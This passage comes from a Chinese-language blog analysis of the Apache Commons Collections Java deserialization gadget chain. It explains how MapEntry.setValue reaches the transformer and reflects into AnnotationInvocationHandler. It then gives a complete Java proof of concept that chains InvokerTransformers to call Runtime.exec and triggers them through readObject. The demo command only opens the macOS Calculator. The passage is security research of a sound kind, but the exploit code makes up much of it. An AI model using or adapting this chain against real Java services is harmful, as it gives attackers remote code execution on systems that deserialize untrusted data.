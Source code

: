 `outerMap` 经过 `entrySet` -> `iterator` -> `next` 方法， 最终使 `MapEntry`类的 `this.parent` 变量被附值成 TransformedMap类的对象 `outerMap `

在最后调用的时候先触发 `MapEntry` 的  `setValue` 

![](Commons-Collections-反序列化利用链分析/image-20210209205806502.png)

然后调用其早就构造好的 `valueTransformer` 的 `transform` 方法

![](Commons-Collections-反序列化利用链分析/image-20210209210130168.png)

对于目前来说，手动触发命令执行显然达不到反序列化利用的标准，由此我们需要从 `readObject` 开始下手。于是找到 AnnotationInvocationHandler 这个类，需要注意的是这个类不能被外部类访问到，所以需要反射去调用它

**Level-3 TransformedMap 利用链 payload**

```java
public class TransformedMapDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        innerMap.put("key", "random");
        Map outerMap = TransformedMap.decorate(innerMap, null, chainDemo);
        Constructor construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
              
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(handler);
        oos.close();
        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```
